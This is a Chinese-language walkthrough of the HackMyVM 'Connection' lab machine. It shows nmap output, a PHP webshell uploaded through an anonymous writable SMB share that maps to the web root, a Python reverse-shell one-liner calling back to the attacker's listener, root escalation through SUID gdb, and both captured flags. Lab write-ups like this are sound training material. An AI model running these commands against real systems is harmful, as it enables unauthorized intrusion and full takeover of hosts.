


# Connection

:::note

[Linux VM] [Tested on VirtualBox] created by || whitecr0wz

⏲️ Release Date // 2020-09-25

✔️ MD5 // 530e8d12ae6fc543a13971d6ca4549fb

☠ Root // 318

💀 User // 316

📝Notes //
Nice and easy VM ;)

:::

## 靶机启动


靶机 IP：

```plaintext
192.168.56.106
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.106
Host is up (0.00036s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 b7e601b5f906a1ea40042944f4df22a1 (RSA)
|   256 fb1694df9389c7568584229ea0be7c95 (ECDSA)
|_  256 452efb8704ebd18b926f6aea5aa2a11c (ED25519)
80/tcp  open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:F1:44:FD (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: Host: CONNECTION; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode:
|   311:
|_    Message signing enabled but not required
|_clock-skew: mean: 1h39m58s, deviation: 2h53m12s, median: -1s
| smb2-time:
|   date: 2023-12-23T02:03:57
|_  start_date: N/A
|_nbstat: NetBIOS name: CONNECTION, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: connection
|   NetBIOS computer name: CONNECTION\x00
|   Domain name: \x00
|   FQDN: connection
|_  System time: 2023-12-22T21:03:57-05:00
```

## 探测 web 服务



就是 Debian 的默认页面，并且目录爆破扫描没有有价值的信息

## 利用 smb 服务

列出服务器上 smb 服务的信息

```shell
┌─[✗]─[randark@randark-Parrot]─[~]
└──╼ $smbclient --no-pass -L //192.168.56.106
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        share           Disk
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (Private Share for uploading files)
SMB1 disabled -- no workgroup available
```

发现一个 `share` 目录，进入终端查看内容

```shell
┌─[randark@randark-Parrot]─[~]
└──╼ $smbclient -N \\\\192.168.56.106/share
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep 23 09:48:39 2020
  ..                                  D        0  Wed Sep 23 09:48:39 2020
  html                                D        0  Wed Sep 23 10:20:00 2020

                7158264 blocks of size 1024. 5438556 blocks available
smb: \> cd html
smb: \html\> ls
  .                                   D        0  Wed Sep 23 10:20:00 2020
  ..                                  D        0  Wed Sep 23 09:48:39 2020
  index.html                          N    10701  Wed Sep 23 09:48:45 2020

                7158264 blocks of size 1024. 5438556 blocks available
```

可以推断这个目录为 web 服务的工作目录，尝试写 php 马

```shell
smb: \html\> put webshell.php
putting file webshell.php as \html\webshell.php (7.8 kb/s) (average 7.8 kb/s)
smb: \html\> ls
  .                                   D        0  Sat Dec 23 10:24:12 2023
  ..                                  D        0  Wed Sep 23 09:48:39 2020
  index.html                          N    10701  Wed Sep 23 09:48:45 2020
  webshell.php                        A       32  Sat Dec 23 10:24:12 2023

                7158264 blocks of size 1024. 5438540 blocks available
```

访问 web 服务，发现可以被正常解析

```shell
┌─[randark@randark-Parrot]─[~/tmp/HackMyVM-Connection]
└──╼ $http get 192.168.56.106/webshell.php
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Length: 0
Content-Type: text/html; charset=UTF-8
Date: Sat, 23 Dec 2023 02:25:00 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.38 (Debian)
```

尝试蚁剑连接，成功 getshell


## user pwned



```plaintext title="/home/connection/local.txt"
3f491443a2a6aa82bc86a3cda8c39617
```

## 进一步稳定 shell 加以利用

利用插件，执行反弹 shell


成功收到回连 shell

```shell
┌─[randark@randark-Parrot]─[~/tmp/HackMyVM-Connection]
└──╼ $nc -lvnp 9999
listening on [any] 9999 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.106] 37550
whoami
www-data
```

并利用 pwncat-cs 进一步稳定 shell

```shell
python3 -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",9999));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```

成功稳定 shell


## 提权探测

```plaintext title="sudo -l"
bash: sudo: command not found
```

```plaintext title="getcap -r / 2>/dev/null"
/usr/bin/ping = cap_net_raw+ep
```

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/su
/usr/bin/passwd
/usr/bin/gdb
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/mount
/usr/bin/gpasswd
```

在 suid 二进制文件中，发现一个特殊文件

```plaintext
-rwsr-sr-x 1 root root 7.7M Oct 14  2019 /usr/bin/gdb
```

## 利用 gdb 进行提权

```shell
(remote) www-data@connection:/var/www/html$ gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
[](remote)[] []root@connection[]:[]/var/www/html[]$ whoami
root
```

## root pwned

```plaintext title="/root/proof.txt"
a7c6ea4931ab86fb54c5400204474a39
```
